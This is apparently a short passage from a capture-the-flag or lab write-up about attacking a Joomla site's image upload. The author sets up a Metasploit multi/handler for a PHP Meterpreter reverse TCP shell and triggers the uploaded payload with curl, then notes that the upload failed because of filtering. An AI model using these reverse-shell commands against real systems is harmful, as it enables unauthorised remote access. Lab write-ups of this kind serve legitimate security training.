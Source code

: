 ![uploadpage](assets/markdown-img-paste-20210830080713142.png)

Right-click on an image and copy location to get URL of the file.

![urlimage](assets/markdown-img-paste-20210830080846691.png)

Upload our merp, set up handler in msf and trigger with curl.
```
msfconsole
use exploit/multi/handler
set LHOST 10.8.210.115
set LPORT 4444
set payload php/meterpreter/reverse_tcp
run

curl "http://10.10.42.140/images/merp.php"
```

Not working, file dosen't upload. Checked all the options and tried several times, but joomla seems to filter it out somehow.
